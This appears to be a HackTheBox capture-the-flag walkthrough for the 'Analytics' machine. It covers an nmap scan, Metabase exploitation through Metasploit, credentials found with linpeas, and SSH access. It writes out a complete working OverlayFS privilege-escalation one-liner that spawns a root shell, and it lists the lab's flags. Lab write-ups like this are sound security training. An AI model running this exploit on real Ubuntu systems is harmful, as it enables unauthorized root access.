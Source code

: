 # Analytics Walkthrough

This is my walkthrough for HackTheBox [Analytics Box](https://app.hackthebox.com/machines/Analytics)

<figure><img src="../../../.gitbook/assets/image (484).png" alt=""><figcaption></figcaption></figure>

First we scan the Machine

```bash
nmap -T4 -Pn -v 10.129.85.38
```

<figure><img src="../../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

We see port 22 and 80 open.

Browse to the website and we get an error, add the IP and domain to the hosts file.&#x20;

<figure><img src="../../../.gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>

Now going back to the website we can look around!

<figure><img src="../../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

Looking around, we see the Login page at the top. Checking that out, it doesn't work BUT the URL has changed to `data.analytical.htb`, so let's add that to the hosts file as well.

<figure><img src="../../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>

When looking we see it's running Metabase.

<figure><img src="../../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

Search for Metabase exploits on google as well as in metasploit. I find [this blog](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) talking about Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)

In Metasploit we see a potential exploit

<figure><img src="../../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

Let's check the options and set them

<figure><img src="../../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>

Send the exploit....

<figure><img src="../../../.gitbook/assets/image (493).png" alt=""><figcaption></figcaption></figure>

We have a shell! Now let's see if we can get and run linpeas.

<figure><img src="../../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

We can! Run it!

&#x20;

<figure><img src="../../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

We see in the "Environment" section, a user and a password

&#x20;

<figure><img src="../../../.gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Let's ssh into the machine with the newly discovered username and password.

```bash
ssh metalytics@10.129.85.38
```

<figure><img src="../../../.gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

Got the user flag! `5f24e4536b318d506fe1a38fbbd959fa`

<figure><img src="../../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

### Priv Escalation

I seen we were running Ubuntu 22.04.3 as we logged in.

&#x20;

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

A simple google search for "Ubuntu 22.04.3 priv escalation" shows me [this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu\_local\_privilege\_escalation\_cve20232640/) about Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629) with multiple references. They list how you can get root using the OverlayFS module with this command:

```bash
unshare -rm sh -c "mkdir 1 u w m && cp /u*/b*/p*3 1/; setcap cap_setuid+eip 1/python3;mount -t overlay overlay -o rw,lowerdir=1,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import pty; import os;os.setuid(0); pty.spawn("/bin/bash")'
```

We have root! `f35c47aac97cb1a6b5450d4eb024a3cc`

<figure><img src="../../../.gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>
